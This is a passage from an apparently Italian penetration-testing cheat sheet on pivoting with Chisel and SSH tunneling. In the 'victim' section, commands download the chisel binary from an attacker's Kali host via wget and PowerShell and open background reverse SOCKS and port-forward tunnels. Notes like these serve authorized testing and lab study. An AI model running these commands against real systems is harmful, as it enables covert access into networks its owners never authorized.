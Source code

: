 - [Ligolo Double-Pivoting](https://systemweakness.com/double-pivoting-for-newbies-with-ligolo-ng-4177b3f1f27b)

## Chisel

- https://github.com/jpillora/chisel

### Port Forwarding

Su **kali**:

```bash
./chisel server --port 5432 --reverse
```

Su **linux** vittima:

```bash
cd /tmp
wget http://192.168.45.190:9999/chisel/chisel

./chisel client 192.168.45.190:5432 R:socks > /dev/null 2>&1 &
./chisel client 10.10.14.4:5432 R:3306:localhost:3306 > /dev/null 2>&1 &
./chisel client 10.10.14.6:8000 R:5432:172.22.0.1:5432
```

Su **windows**:

```bash
powershell iwr -uri http://$KALI_IP:9999/chisel/c.exe -Outfile c.exe

.\c.exe client $KALI_IP:5432 R:8888:localhost:8888
```

## SSH 

### Tunneling

```bash
# Esempio
ssh -L 1234:localhost:8080 amay@10.10.11.28

ssh -L 3000:localhost:3000 malika@192.168.109.110
```

### Dynamic Port Forwarding

```bash
ssh -D 1080 user@10.10.11.28
```

# File transfer

## SCP
